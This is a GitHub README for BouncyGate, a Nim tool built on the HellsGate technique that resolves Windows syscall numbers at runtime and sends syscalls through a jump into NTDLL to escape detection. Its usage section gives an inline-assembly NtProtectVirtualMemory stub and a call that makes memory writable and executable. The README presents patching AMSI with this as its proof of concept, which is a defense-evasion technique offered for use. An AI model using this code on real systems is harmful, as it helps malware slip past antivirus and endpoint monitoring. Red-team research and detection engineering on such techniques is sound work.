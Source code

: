 # BouncyGate

This is a modified version of [@zimawhit3's implementation](https://github.com/zimawhit3/HellsGateNim) of HellsGate in Nim, with additionally making sure that all syscalls go through NTDLL, by replacing the syscall instructions with a JMP to a syscall instruction in NTDLL. The syscalls are then used to patch AMSI as a PoC.

See https://eversinc33.github.io/posts/avoiding-direct-syscall-instructions/ for an explanation.

If you would like to learn more about how HellsGate works, you can find smelly__vx's (@RtlMateusz) and am0nsec's (@am0nsec) paper at the [Vx-Underground Github](https://github.com/vxunderground/VXUG-Papers/tree/main/Hells%20Gate).

Install mingw 8.0.0-1, since the newest version has some issues related to relocation that make compilation impossible.

### Usage

First, the syscall stub has to be defined:

```nim
proc NtProtectVirtualMemory(ProcessHandle: Handle, BaseAddress: PVOID, NumberOfBytesToProtect: PULONG, NewAccessProtection: ULONG, OldAccessProtection: PULONG): NTSTATUS {.asmNoStackFrame.} =
    asm """
        mov r10, rcx
        mov eax, `ntProtectSyscall`
        mov r11, `syscallJumpAddress`
        jmp r11
        ret
    """
```

Then the syscall number can be resolved at runtime and the syscall can be used afterwards:

```nim
ntProtectSyscall = resolve_syscall("NtProtectVirtualMemory").wSysCall

var status = NtProtectVirtualMemory(GetCurrentProcess(), &cs_addr, &p_len, cast[ULONG](PAGE_EXECUTE_READWRITE), &op)
```
